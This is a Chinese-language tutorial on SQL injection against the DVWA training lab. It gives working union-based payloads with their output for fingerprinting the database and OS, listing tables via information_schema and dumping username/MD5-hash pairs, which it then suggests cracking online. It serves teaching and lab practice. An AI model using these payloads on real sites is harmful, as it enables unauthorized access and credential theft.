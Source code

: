 # SQL注入产生的原因

客户端访问动态网页时，服务器会向数据访问层发起SQL查询请求，调取数据库中的数据。

实际情况中，服务器向数据访问层发起的SQL查询请求需要结合用户输入的数据动态构造SQL语句，所以当用户输入非法或恶意的代码时，就有可能构造出恶意的SQL语句被执行，造成以下威胁：

- 猜解后台数据库，这是利用最多的方式，盗取网站的敏感信息。
- 绕过认证，列如绕过验证登录网站后台。
- 注入可以借助数据库的存储过程进行提权等操作



# 使用DVWA靶场进行测试

![](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/%E5%8D%9A%E5%AE%A2/DVWA%E9%9D%B6%E5%9C%BASQL%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/2022-03-28/DVWA%E9%9D%B6%E5%9C%BA.png)

### 一、安全级别：low

1、输入框中输入1，提交，查看回显。

![](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/%E5%8D%9A%E5%AE%A2/DVWA%E9%9D%B6%E5%9C%BASQL%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/2022-03-28/Low_%E5%9B%9E%E6%98%BE.png)

 (URL中ID=1，说明php页面通过 **get** 方法传递参数)

2、查看网页源码，找到关键的SQL语句。

![](https://yvling-blog-image-1257337367.cos.ap-shanghai.myqcloud.com/%E5%8D%9A%E5%AE%A2/DVWA%E9%9D%B6%E5%9C%BASQL%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/2022-03-28/Low_%E6%BA%90%E7%A0%81.png)

实际执行的SQL语句：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

即通过控制参数 id 的值来获取信息。

3、尝试通过特殊的输入来构造SQL语句，并让数据库能够执行。

在输入框中输入 *1‘ order by 1#*

那么实际传递给数据库的SQL语句就会变成：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1 #';
```

按照SQL的语法，#后的字符均被解释为注释。

那么这条语句就变为：查询users表中id为1的数据并按第一字段排序。

查看返回结果：

```
ID: 1' order by 1 #
First name: admin
Surname: admin
```

改变排序的字段，当输入为 *1‘ order by 3#*时返回错误，说明users表中只有两个字段。

4、使用 **union select** 联合查询语句获取更多信息。

①查询当前数据库名称及执行查询的用户名称

输入：*1' union select database(),user() #*

- database() 将会返回当前网站所使用的数据库名字.
- user() 将会返回执行当前查询的用户名.

查看返回结果：

```
ID: 1' union select database(),user() #
First name: admin
Surname: admin
ID: 1' union select database(),user() #
First name: dvwa
Surname: dvwa@localhost
```

成功获知：

- 当前使用的数据库为：dvwa。
- 当前执行查询的用户为：dvwa@localhost。

②查询当前数据库版本和当前操作系统

输入：*1' union select version(),@@version_compile_os #*

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

查看返回结果：

```
ID: 1' union select version(),@@version_compile_os #
First name: admin
Surname: admin
ID: 1' union select version(),@@version_compile_os #
First name: 5.1.41-3ubuntu12.6-log
Surname: debian-linux-gnu
```

成功获知：

- 当前数据库版本为 : 5.1.41-3ubuntu12.6-log
- 当前操作系统为 : debian-linux-gnu

③查询当前数据库中的表名

**information_schema** 是 mysql 自带的一个数据库，这个数据库保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

输入：

*1' union select table_name,table_schema from information_schema.tables where table_schema='dvwa' #*

查看返回结果：

```
ID: *1' union select table_name,table_schema from information_schema.tables where table_schema='dvwa' #
First name: guestbook
Surname: dvwa
ID: *1' union select table_name,table_schema from information_schema.tables where table_schema='dvwa' #
First name: users
Surname: dvwa
```

成功获知：

- dvwa 数据库有两个数据表，分别是 guestbook 和 users 。

④查询用户名和密码

由经验可以猜测 users 表的字段为 **user** 和 **password**。

输入：*1' union select user,password from users #*

查看返回结果：

```
ID: 1' union select user,password from users #
First name: admin
Surname: admin
ID: 1' union select user,password from users #
First name: admin
Surname: 21232f297a57a5a743894a0e4a801fc3
ID: 1' union select user,password from users #
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: 1' union select user,password from users #
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: 1' union select user,password from users #
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: 1' union select user,password from users #
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: 1' union select user,password from users #
First name: user
Surname: ee11cbb19052e40b07aac0ca060c23ee
```

成功获取表中的用户名和密码。

密码使用MD5加密，可以到 www.cmd5.com 进行解密。



